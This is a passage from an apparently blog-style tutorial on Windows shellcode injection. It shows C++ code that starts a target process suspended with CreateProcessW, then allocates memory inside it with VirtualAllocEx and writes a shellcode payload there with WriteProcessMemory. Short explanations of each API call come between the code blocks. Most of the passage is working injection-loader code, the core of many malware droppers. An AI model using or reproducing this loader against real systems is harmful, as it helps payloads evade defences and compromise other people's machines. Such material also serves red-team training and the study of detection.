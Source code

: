                 VirtualFreeEx(*hProcess, *lpBuffer, 0, MEM_RELEASE);
            
            TerminateProcess(*hProcess, GetExitCodeProcess(*hProcess, &dwExitCode));
            return x;
        }
    }
    else
    {
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
        std::cerr << "[-] Failed to create target process with error: 0x" << GetLastError();
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
        return FALSE;
    }

    return TRUE;
}
{% endhighlight %}

- **PROCESSUPINFOW:** This structure is declared to set the necessary configurations when creating a new process.
- **PROCESS_INFORMATION:** This is used to receive the necessary information about the newly created process and its primary thread.
- **CreateProcessW:** This is the main function of the Windows API to create a process and its main thread.
  - **processName.data():** The name and path of the executable image to be executed.
  - **CREATE_SUSPENDED:** This flag specifies that the process and its main thread remain in a suspended state.

- **MemoryAllocation:** This is the custom function which will be described in the next step.

Additionally, a `try-catch` block was added to handle exceptions and free resources. `TerminateProcess` is included to terminate the process if something unexpected occurs.

- #### **Crafting a custom function to allocate remote memory:** ####

`MemoryAllocation` is used to allocate memory in the process's address space and copy the shellcode to that location using WriteProcessMemory.

{% highlight CPP %}
// allocates and write shellcode in target process
LPVOID MemoryAllocation(HANDLE hProcess)
{
    SIZE_T cbSize { sizeof(payload) };
    LPVOID lpBuffer { nullptr };

    if( !(lpBuffer = VirtualAllocEx(hProcess, NULL, cbSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) )
        return nullptr;
    
    std::cout << "\n[+] Allocating memory: 0x" << lpBuffer << std::endl;

    // Write shellcode to remote buffer in target process
    if(!WriteProcessMemory(hProcess, lpBuffer, payload, cbSize, NULL))
    {
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RED);
        std::cerr << "\t[-] Failed to write shellcode into the target process's address space: 0x" << lpBuffer << std::endl;
        SetConsoleTextAttribute(GetStdHandle(STD_OUTPUT_HANDLE), COLOR_RESET);

        VirtualFreeEx(hProcess, lpBuffer, 0, MEM_RELEASE);
        return nullptr;
    }

    return lpBuffer;   
}
{% endhighlight %}
